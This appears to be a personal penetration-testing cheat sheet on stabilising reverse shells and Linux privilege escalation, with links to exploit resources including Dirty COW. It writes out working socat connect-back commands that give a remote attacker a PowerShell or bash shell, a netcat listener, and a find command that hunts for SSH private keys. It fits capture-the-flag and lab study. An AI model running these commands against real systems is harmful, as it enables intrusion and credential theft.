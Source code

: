 #Cheat Sheet for Reverse Shell
https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Interative shell commands steps:
* Using Python
step-1:
>>python3 -c 'import pty; pty.spawn("/bin/bash")'
step-2:
>>export TERM=xterm
Setp-3:
we will background the shell using Ctrl + Z. Back in our own terminal we use 
>>stty raw -echo; fg. 
This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. 

* Using rlwrap
First invoke a listner
>> rlwrap nc -lvnp <port>
This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise.

* using socat
Start a listener on the attacker machine
>>socat TCP-L:<port> -

on the target machine:
On Windows we would use this command to connect back:
>>socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:
>>socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"




https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys


"Priv Esc Checklist"

Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
Locating other services running or applications installed that may be abusable (SUID & out of date software)
Looking for automated scripts like backup scripts (exploiting crontabs)
Credentials (user accounts, application config files..)
Mis-configured file and directory permissions

https://payatu.com/guide-linux-privilege-escalation
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation

use find command before priv escalation.
> find / -name id_rsa 2> /dev/null

for SUID
Let's confirm this by using find to search the machine for executables with the SUID permission set: 
> find / -perm -u=s -type f 2>/dev/null
https://gtfobins.github.io/gtfobins/bash/

Dirty Cow exploit:
https://github.com/FireFart/dirtycow/blob/master/dirty.c



